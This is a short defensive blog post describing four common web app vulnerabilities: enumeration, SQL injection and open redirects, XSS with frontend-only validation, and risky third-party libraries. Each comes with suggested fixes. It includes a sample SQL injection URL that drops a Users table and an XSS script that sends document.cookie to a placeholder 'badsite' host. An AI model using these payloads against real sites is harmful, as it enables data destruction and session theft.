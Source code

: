 # 4 common vulnerabilities of web apps

As software engineers we are not only concerned about code, we are also involved directly with the client to understand his point of view and to make sure that they are aware of the technical side. 

Security is one of the most important topics that we like to discuss, so in this blog post I will share 4 common security vulnerabilities in web applications, how it can be exploited and how can be prevented. 

## 1) Public Endpoints

A public endpoint does not have an authentication process so they are public to the world. Sometimes this is a requirement because we have a feature that can be accessed by anyone.

### Possible exploit: Enumeration

- Enumeration is the process of extracting information iterating over an endpoint. 

### Example

- If the web app has an endpoint that returns `true` when an email is available it can be exploited by iterating over an email list to know which email is used in your site. 
`https://example.com/email_available.json?email=mail@example.com`
A malicious agent can generate a list of emails used in your site and execute a social engineering attack, for instance impersonate your business to ask for passwords.

### Solution

- We must be aware of public endpoints and add authentication if needed.
- When that’s not possible we should add rate limiting based on the IP, to prevent the use of automatic scripts.

## 2) Unsanitized url parameters

Sanitizing is the process of cleaning, removing and validating the proper form of the parameters. An unsanitized url parameter is a vulnerability.

### Possible vulnerabilities: Open redirects & SQL injections

- Open Redirects: The http parameters are used to redirect to a new website without executing validations.

- SQL Injection: malicious SQL statements are executed using insecure entry points

### Example

- Redirect to malicious sites after some step is taken by the user.

- A web page that has a search functionality but the parameter is not sanitized, so you can add SQL statements that could be executed, in this case to delete the Users table 
`http://mysite.com/?s=something_to_search; DROP TABLE Users`

### Solutions

- Sanitize the url parameters: Remove javascript code, illegal characters, etc
- Validate that redirection from url parameters are only to your domain
- Sanitize user inputs used in your sql queries


## 3) Frontend validations

Frontend validations helps ensure users will fill out the data in the correct format, but sometimes this is not enough.

### Possible vulnerabilities: XSS & bypass validations

- An XSS (Cross site scripting) vulnerability can be used to insert malicious Javascript code.
- Frontend validations are not enough because they can be easily bypassed, intercepting the payload and changing the data.

### Examples

- Webapp where you can upload only images (not other files) but the validations are only in the frontend allowing a malicious user to intercept the payload and upload executable files, js code, etc

- A comment section in a webapp with an XSS vulnerability that can be used to steal cookies. It can insert this javascript code and each time a user loads the page it will send the cookies to a malicious site.
`<script>new Image().src="http://badsite/?s="+document.cookie;</script>`

### Solutions

- Make backend validations
- Sanitize user inputs in the in the backend to allow only valid values

## 4) Third party libraries

A third party library is a reusable component developed externally. Using external libraries has benefits like improve the development speed but it also has some drawbacks.

### Possible vulnerability : Attacks directed at the library

Modern apps use a lot of libraries and they can be a target or an attack vector into your webapp.

### Examples

- Outdated library with known vulnerabilities.
- Popular open source library hacked and updated with malicious code.

### Solutions

- Do you need the third party library? Make sure that the pros outweigh the cons when using a library. 
- Be aware of issues in your libraries. For example Github alerts you of potential vulnerabilities in js libraries. Keep them up to date.

## Conclusion

When building software we have to keep in mind the vulnerabilities that we could face, so we can prevent them in the initial stages of design and development. The trust of the users is the most valuable asset so investing in security is always recommended.  
